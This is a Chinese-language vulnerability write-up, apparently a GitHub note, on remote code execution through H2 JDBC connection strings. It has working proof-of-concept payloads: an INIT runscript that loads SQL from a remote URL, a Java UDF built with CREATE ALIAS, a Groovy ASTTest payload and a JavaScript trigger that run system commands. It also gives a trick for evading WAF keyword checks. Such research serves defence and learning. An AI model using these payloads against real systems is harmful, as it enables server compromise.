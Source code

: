 - [H2 JDBC Attack](#h2-jdbc-attack)
  - [漏洞原理](#漏洞原理)
    - [Execute SQL on Connection](#execute-sql-on-connection)
    - [UDF](#udf)
    - [远程加载SQL](#远程加载sql)
    - [本地执行SQL](#本地执行sql)
      - [Groovy](#groovy)
      - [ScriptEngineManager](#scriptenginemanager)

# H2 JDBC Attack
## 漏洞原理
### Execute SQL on Connection
h2支持在连接时指定初始化执行SQL语句.
http://www.h2database.com/html/features.html?highlight=init&search=init#execute_sql_on_connection    
![](2023-07-24-18-21-51.png)   
比如`String url = "jdbc:h2:mem:test;INIT=runscript from '~/create.sql'\\;`
### UDF
而在h2中也支持通过`CREATE ALIAS`和`CREATE TRIGGER`命令创建用户自定义函数(UDF).  
https://www.h2database.com/html/commands.html#create_alias  
![](2023-08-03-10-46-55.png)  
https://www.h2database.com/html/commands.html#create_trigger  
![](2023-07-24-18-55-24.png)    
所以便可以通过UDF来进行RCE.  
```sql
CREATE ALIAS EXEC AS 'void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';
select EXEC ('calc.exe');
```
结合两个特性,我们便可以在连接到h2数据库时进行RCE.
### 远程加载SQL 
而从代码中可以看到对文件名是调用的`FileUtils.newInputStream(file);`进行处理.  
![](2023-07-24-18-45-37.png)  
而最后如果不是从classPath开头地址的话就会使用URL连接打开.  
![](2023-07-24-18-47-42.png)   
所以SQL语句是支持执行远程地址的sql文件.  
比如`jdbc:h2:mem:test;INIT=runscript from 'http://172.21.165.206:8080/init.sql'`  
![](2023-08-03-10-51-08.png)  
### 本地执行SQL
#### Groovy
而如果目标不能连接到外部地址,那么则不能通过远程SQL文件来RCE,而`CREATE ALIAS`还支持Groovy语言来创建UDF,而Groovy的元编程特性可以导致在Groovy编译时就执行代码,因为在h2 JDBC连接时从无法直接在JDBC连接字符串中连续执行多条语句.
需要依赖
```xml
        <dependency>
        <groupId>org.codehaus.groovy</groupId>
        <artifactId>groovy-sql</artifactId>
        <version>3.0.8</version>
    </dependency>
```
poc
```
        String url = "jdbc:h2:mem:test;init=CREATE ALIAS shell2 AS \n" +
                "$$@groovy.transform.ASTTest(value={\n" +
                " assert java.lang.Runtime.getRuntime().exec(\"cmd.exe /c calc.exe\")\n" +
                " })\n" +
                " def x$$";
```
![](2023-08-03-11-08-33.png)
#### ScriptEngineManager
而在`CREATE TRIGGER`中还支持执行javascript和ruby,当代码以`//javascript`和`#ruby`开头便会调用对应的引擎进行编译执行了,而javascript时JAVA自带的不需要其它依赖.
![](2023-08-03-11-13-48.png)  
poc: 
```
String url = "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON \n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                " java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')\n" +
                " $$";
```
![](2023-08-03-11-16-27.png)

* 在h2中$$之间的字符串不会被转义.
* `//javascript`后面需要换行,在浏览器中输入后,需要在Burp中手动换行.
* 有些程序或者waf会检测init关键字,但init前面可以加一个`\`来绕过,不影响语句执行.